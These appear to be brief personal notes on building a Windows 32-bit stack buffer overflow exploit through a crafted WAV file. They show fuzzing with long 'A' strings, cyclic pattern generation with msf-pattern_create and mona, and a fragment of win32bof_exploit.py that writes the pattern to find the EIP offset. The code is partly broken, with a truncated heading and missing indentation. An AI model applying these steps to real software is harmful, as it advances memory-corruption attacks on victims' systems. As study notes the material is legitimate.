 # Fuzzing

```
python -c "print('A'*10000)"
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

# Contro
```
/usr/bin/msf-pattern_create -l 5000

ERC --pattern c 5000
```

win32bof_exploit.py

```
def eip_offset():
payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5...Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk", "utf-8")

with open('pattern.wav', 'wb') as f:
    f.write(payload)

eip_offset()
```